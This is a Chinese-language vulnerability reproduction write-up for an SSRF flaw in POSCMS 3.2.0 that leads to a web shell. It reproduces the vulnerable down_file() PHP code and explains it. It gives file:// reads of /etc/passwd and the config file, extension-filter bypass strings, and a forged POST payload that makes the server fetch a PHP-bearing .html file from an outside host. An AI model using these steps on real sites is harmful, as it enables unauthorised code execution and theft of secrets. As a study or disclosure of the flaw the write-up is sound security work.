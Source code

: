 POSCMS 3.2.0 ssrf漏洞getshell
=============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

打开项目源代码，第一个漏洞的出处在`\diy\module\member\controllers\Api.php`中的`down_file()`函数，内容如下：

    // 文件下载并上传
    public function down_file() {

        /***********************************************************
        * Part0. 获取POST参数url中的内容并解析
        ************************************************************/
        $p = array();
        $url = explode('&', $this->input->post('url'));

        foreach ($url as $t) {
        $item = explode('=', $t);
        $p[$item[0]] = $item[1];
        }

        /***********************************************************
        * Part1. 验证用户权限
        ************************************************************/
        !$this->uid && exit(dr_json(0, fc_lang('游客不允许上传附件')));

        // 会员组权限
        $member_rule = $this->get_cache('member', 'setting', 'permission', $this->member['mark']);

        // 是否允许上传附件
        !$this->member['adminid'] && !$member_rule['is_upload'] && exit(dr_json(0, fc_lang('您的会员组无权上传附件')));

        // 附件总大小判断
        if (!$this->member['adminid'] && $member_rule['attachsize']) {
        $data = $this->db->select_sum('filesize')->where('uid', $this->uid)->get('attachment')->row_array();
        $filesize = (int)$data['filesize'];
        $filesize > $member_rule['attachsize'] * 1024 * 1024 && exit(dr_json(0, fc_lang('附件空间不足！您的附件总空间%s，现有附件%s。', $member_rule['attachsize'].'MB', dr_format_file_size($filesize))));
        }

        /***********************************************************
        * Part2. 解密code参数的值获得扩展、路径等信息
        ************************************************************/    
        list($size, $ext, $path) = explode('|', dr_authcode($p['code'], 'DECODE'));

        /***********************************************************
        * Part3. 生成存放路径
        ************************************************************/    
        $path = $path ? SYS_UPLOAD_PATH.'/'.$path.'/' : SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/';
        !is_dir($path) && dr_mkdirs($path);

        $furl = $this->input->post('file');

        /***********************************************************
        * Part4. 访问并获取文件  
        ************************************************************/
        $file = dr_catcher_data($furl);
        !$file && exit(dr_json(0, '获取远程文件失败'));

        /***********************************************************
        * Part5. 根据扩展名过滤并存储数据  
        ************************************************************/
        $fileext = strtolower(trim(substr(strrchr($furl, '.'), 1, 10))); //扩展名
        $exts = (array)explode(',', $ext);
        !in_array($fileext, $exts) && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));
        $fileext == 'php' && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));

        $filename = substr(md5(time()), 0, 7).rand(100, 999);       //文件名

        /***********************************************************
        * Part6. 向路径写入数据并返回响应结果  
        ************************************************************/
        if (@file_put_contents($path.$filename.'.'.$fileext, $file)) {
            $info = array(
                'file_ext' => '.'.$fileext,
                'full_path' => $path.$filename.'.'.$fileext,
                'file_size' => filesize($path.$filename.'.'.$fileext)/1024,
                'client_name' => '',
            );
            $this->load->model('attachment_model');
            $this->attachment_model->siteid = $p['siteid'] ? $p['siteid'] : SITE_ID;
            $result = $this->attachment_model->upload($this->uid, $info);
            if (is_array($result)) {
                list($id) = $result;
                echo json_encode(array('status'=>1, 'id'=>$id, 'name' => dr_strcut($filename, 10).'.'.$fileext));exit;
            } else {
                @unlink($info['full_path']);
                exit(dr_json(0, $result));
            }
        } else {
            exit(dr_json(0, '文件移动失败，目录无权限（'.$path.'）'));
        }
    }

### 源码分析

这段代码的主要逻辑是**根据请求中参数去请求文件内容，并将它保存在特定目录中，最后以json格式返回保存结果**。

Part1没什么好说的，只要管理员不修改默认权限，注册个普通用户就有视频、图片的上传功能。Part2中`dr_authcode()`是一个加解密函数，位于`\diy\dayrui\helpers\function_helper.php`。其具体实现可以不用关心，毕竟源码已经到手，只要找到密钥，就能随意构造加密结果。

![1.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId25.png)

Part3中确定了下载文件的名称，这里我们请求的参数中不包含`code`参数，使`$PATH为空`，则它会取问号表达式的后半段`SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/'`，最后的上传路径如下：`/uploadfile/年月/`。

![2.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId26.png)

Part4中的`dr_catcher_data()`函数正是SSRF漏洞的来源，其实现位于`\diy\dayrui\helpers\function_helper.php`。无论代码最后选的是fopen模式还是curl模式，开发人员都没有对可解析的协议做限制，也没有校验请求参数`$url`的范围。

![3.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId27.png)

### 寻找触发点

直接用VSCode的全局搜索功能，寻找`down_file()`函数的调用位置：

![4.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId29.png)

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置`file`参数的值使其访问`/etc/passwd`，得到如下响应：

![5.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId30.png)

用浏览器打开"文件存储路径+返回的文件名"：

![6.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId31.png)

### GetShell

再请求一下`/config/system.php`，该文件中存储有重要的元数据。

![7.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId33.png)

这是因为Part5中的`$ext`变量虽然为空，但它专门过滤了.php文件，好在利用`file://`协议的解析特性，可以绕过这一点，比如`.php?.`或`.php#.`：

![8.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId34.png)

再次用浏览器打开并设置编码格式为UTF-8：

![9.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId35.png)

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1.  构造特殊payload使.html文件允许被上传
2.  在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3.  利用SSRF漏洞，使服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://www.0-sec.org/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![10.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId36.png)

![11.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId37.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：

![12.png](resource/POSCMS3.2.0ssrf漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-1
